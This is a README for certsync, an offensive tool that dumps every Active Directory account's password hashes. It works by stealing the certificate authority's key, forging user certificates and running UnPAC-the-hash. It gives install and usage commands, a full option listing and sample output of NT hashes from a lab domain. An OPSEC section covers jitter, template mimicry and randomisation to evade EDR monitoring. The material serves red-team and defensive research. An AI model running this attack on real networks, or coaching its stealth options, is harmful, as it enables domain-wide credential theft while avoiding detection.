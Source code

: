# certsync

`certsync` is a new technique in order to dump NTDS remotely, but this time **without DRSUAPI**: it uses [golden certificate](https://www.thehacker.recipes/ad/persistence/ad-cs/golden-certificate) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash).
It works in several steps:

1. Dump user list, CA informations and CRL from LDAP
2. Dump CA certificate and private key
3. Forge offline a certificate for every user
4. UnPAC the hash for every user in order to get nt and lm hashes

```text
$ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 13 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
ESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::
ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::
ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::
ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

Contrary to what we may think, the attack is not at all slower.

## Table of Contents

- [certsync](#certsync)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [Usage](#usage)
  - [Why](#why)
  - [Requirements](#requirements)
  - [Limitations](#limitation)
  - [OPSEC](#opsec)
  - [Credits](#credits)

## Installation

```text
git clone https://github.com/zblurx/certsync
cd certsync
pip install .
```

or 

```text
pip install certsync
```

## Usage

```text
$ certsync -h
usage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username] [-p password] [-hashes LMHASH:NTHASH]
                [-no-pass] [-k] [-aesKey hex key] [-use-kcache] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver] [-dns-tcp] [-dc-ip ip address]
                [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]

Dump NTDS with golden certificates and PKINIT

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -outputfile OUTPUTFILE
                        base output filename

CA options:
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP

authentication options:
  -d domain.local, -domain domain.local
                        Domain name
  -u username, -username username
                        Username
  -p password, -password password
                        Password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -use-kcache           Use Kerberos authentication from ccache file (KRB5CCNAME)
  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

connection options:
  -scheme ldap scheme
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

OPSEC options:
  -ldap-filter LDAP_FILTER
                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))
  -template cert.pfx    base template to use in order to forge certificates
  -timeout timeout      Timeout between PKINIT connection
  -jitter jitter        Jitter between PKINIT connection
  -randomize            Randomize certificate generation. Takes longer to generate all the certificates
```

## Why

DSRUAPI is more and more monitored and sometimes retricted by EDR solutions. Moreover, `certsync` does not require to use a Domain Administrator, it only require a CA Administrator.

## Requirements

This attack needs:
- A configured Entreprise CA on an ADCS server in the domain,
- PKINIT working,
- An domain account which is local administrator on the ADCS server, or an export of the CA certificate and private key.

## Limitations

Since we cannot PKINIT for users that are revoked, we cannot dump thier hashes.

## OPSEC

Some options were added to customize the behaviour of the tool:
- `-ldap-filter`: change the LDAP filter used to select usernames to certsync.
- `-template`: use an already delivered certificate to mimic it when forging users certificates.
- `-timeout` and `-jitter`: change timeout between PKINIT authentication requests.
- `-randomize`: By default, every forged user certificates will have the same private key, serial number and validity dates. This parameter will randomize them, but the forging will take longer. 

## Credits

- [Olivier Lyak](https://twitter.com/ly4k_) for all his work on ADCS and [certipy](https://github.com/ly4k/Certipy).
- [Benjamin Delpy](https://twitter.com/gentilkiwi) for the unPAC the hash technique.
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify).
- [Mayfly](https://twitter.com/M4yFly) for his great lab: [GOAD](https://github.com/Orange-Cyberdefense/GOAD).
